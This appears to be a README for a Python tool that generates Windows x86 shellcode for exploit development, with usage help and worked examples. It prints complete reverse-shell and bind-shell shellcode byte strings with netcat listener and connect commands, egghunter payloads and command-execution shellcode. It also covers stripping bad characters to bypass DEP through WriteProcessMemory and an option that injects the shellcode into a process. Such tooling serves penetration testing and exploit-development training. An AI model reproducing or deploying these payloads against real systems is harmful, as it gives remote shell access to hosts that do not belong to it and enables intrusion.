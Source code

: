 # Windows x86 Shellcode Generator

## Usage

```
$ python3 win_x86_shellcoder.py -h
usage: win_x86_shellcoder.py [-h] [-b BADCHARS] [-r] [-w] [-e {process,thread,none}] {reverse,bind,exec,egghunter,loadfile} ...

Windows x86 Shellcode Generator

positional arguments:
  {reverse,bind,exec,egghunter,loadfile}
                        Shellcode mode
    reverse             Generate reverse shell shellcode
    bind                Generate bind shell shellcode
    exec                Generate execute command shellcode
    egghunter           Generate egghunter shellcode
    loadfile            Load shellcode from file
    loadcoe             Load assembly code from file

options:
  -h, --help            show this help message and exit
  -b BADCHARS, --badchars BADCHARS
                        Characters to avoid
  -r, --run_shellcode   Inject shellcode into a current Python process
  -w, --use_windbg      Insert int3 for debugger into shellcode
  -e {process,thread,none}, --exit_func {process,thread,none}
                        Function called to terminate shellcode
```


## Examples

### Reverse Shell

```
nc -nlvp 443
```

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' reverse -i 192.168.1.120 -p 443
# shellcode size: 0x15f (351)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x0e\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8P\xb8\xcd\xcd\xd1\xbb\xf7\xd8PhWS2_Th\xf9\x1d\x7f\xc3\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\x1e\x9a\x0c0\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\xff\x9aH\x1a\xffU\x04\x89\xc61\xc0PPh\xc0\xa8\x01xf\xb8\x01\xbb\xc1\xe0\x10f\x83\xc0\x02PT_1\xc0PPPP\x04\x10PWVh2\xa6\xc3\x1a\xffU\x04VVV1\xc0H\x8dH\x0e@P\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8P\xb8\x9d\x92\x9b\xd1\xf7\xd8P\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh\x98\xb1\x89\xef\xffU\x041\xc9Qj\xffh\xc2Y\xfc\xe6\xffU\x04'
```


### Bind Shell

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' bind -p 54321
# shellcode size: 0x170 (368)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca)\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8P\xb8\xcd\xcd\xd1\xbb\xf7\xd8PhWS2_Th\xca\xcc~E\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\xb8\xe0i\xa1\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\xa9\x1f\xbe\xc0\xffU\x04\x89\xc61\xc0PPPf\xb8\xd41\xc1\xe0\x10\x04\x02PT_1\xc0\x04\x10PWVh\xa5L\x1a\x97\xffU\x041\xc0PVh\xd4f\xfd\xc5\xffU\x041\xc0PPVh\xda\xa4!k\xffU\x04\x89\xc6VVV1\xc0H\x8dH\x0e@P\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8P\xb8\x9d\x92\x9b\xd1\xf7\xd8P\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh<\xc6ry\xffU\x041\xc9Qj\xffh\xc6\xbaHp\xffU\x04'
```

```
nc -nv 192.168.1.121 54321
```


### Execute Command

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' exec -c 'calc'
# shellcode size: 0xba (186)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x03\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\x01\x02\x02\x025\x01\x03\x03\x03Phcalc\x89\xe11\xd2RQhq\x90H\xaa\xffU\x041\xc9Qj\xffh\x97\xaae}\xffU\x04'
```


### Egghunter

#### Use ntaccess

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter ntaccess -t w00tw00t
# shellcode size: 0x24 (36)
shellcode = b'f\x81\xca\xff\x0fBR\xb8:\xfe\xff\xff\xf7\xd8\xcd.<\x05Zt\xeb\xb8w00t\x89\xd7\xafu\xe6\xafu\xe3\xff\xe7'
```


#### Use SEH

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter seh -t w00tw00t
# shellcode size: 0x45 (69)
shellcode = b'\xeb*Y\xb8w00tQj\xff1\xdbd\x89#\x83\xe9\x04\x83\xc3\x04d\x89\x0bj\x02Y\x89\xdf\xf3\xafu\x07\xff\xe7f\x81\xcb\xff\x0fC\xeb\xed\xe8\xd1\xff\xff\xffj\x0cY\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06X\x83\xc4\x10P1\xc0\xc3'
```


## Bypass DEP with WriteProcessMemory

This tool was created to facilitate developing shellcodes that do not contain bad characters and do not require decoding to bypass DEP with [WriteProcessMemory](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).

Suppose [VirtualAlloc](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) or [VirtualProtect](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) cannot be used and WriteProcessMemory must be used. In that case, encoders that perform dynamic decoding such as shikata_ga_nai will likely not work because the address to which WriteProcessMemory writes the shellcode will remain not writable, making it impossible to write dynamically decoded shellcode.

One solution to this problem is to develop a shellcode that does not contain bad characters and does not require decoding.


## Find Bad Characters

`-b` is an option to specify bad characters. The specified bad characters are automatically removed from function name hashes and some instructions in the shellcode. If any remaining bad characters cannot be removed, the output will indicate which instructions contain bad characters as `[x]`.

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0C\x0D\x20\x23\x25\x26\x2B\x2E\x2F\x3D\x3F\x5C' reverse -i 192.168.1.120 -p 443
...
# bad chars were found in the shellcode
...
[ ] ebf4         : jmp 0x58
[x] eb2b         : jmp 0x91
[ ] 5e           : pop esi
[ ] 8b36         : mov esi, dword ptr [esi]
[ ] ebb9         : jmp 0x24
[ ] 3b542428     : cmp edx, dword ptr [esp + 0x28]
[ ] 75d6         : jne 0x47
[ ] 8b5724       : mov edx, dword ptr [edi + 0x24]
[ ] 01da         : add edx, ebx
[x] 668b0c4a     : mov cx, word ptr [edx + ecx*2]
[ ] 8b571c       : mov edx, dword ptr [edi + 0x1c]
...
```


## Replace Instructions

We can manually remove the remaining bad characters by replacing the detected instruction with another instruction. For example, 0x0C and 0x2B can be removed by replacing the instructions in [find_and_call.py](coder/find_and_call.py) as follows.

```asm
...
    jmp   compute_hash_again        // Next iteration

find_and_call_hop:
    jmp   find_and_call_end
    nop                             // * REMOVE 0x2B *
    nop                             // * REMOVE 0x2B *

get_next_module:
    pop   esi                       // Restore InInitOrder
    mov   esi, [esi]                // ESI = InInitOrder[X].flink (next)
    jmp   next_module

find_function_compare:
    cmp   edx, [esp+0x28]           // Compare the computed hash with the requested hash
    jnz   find_function_loop        // If it doesn't match go back to find_function_loop
    mov   edx, [edi+0x24]           // AddressOfNameOrdinals RVA
    add   edx, ebx                  // AddressOfNameOrdinals VMA
    //; mov   cx,  [edx+2*ecx]          // Extrapolate the function's ordinal
    mov   ax,  [edx+2*ecx]          // * REMOVE 0x0C *
    mov   cx, ax                    // * REMOVE 0x0C *
    mov   edx, [edi+0x1C]           // AddressOfFunctions RVA
...
```


## Debug Shellcode (for Windows Only)

### Inject shellcode into a Python process

`-r`, `--run_shellcode`

```
python3 win_x86_shellcoder.py -r reverse -i 192.168.1.120 -p 443
```


### Insert int3 for debugger into shellcode

`-w`, `--use_windbg`

```
python3 win_x86_shellcoder.py -r -w reverse -i 192.168.1.120 -p 443
```

## Check for bad characters in assembly code from file
```
python3 win_x86_shellcoder.py -b '\x00' loadcode -f code.txt
```
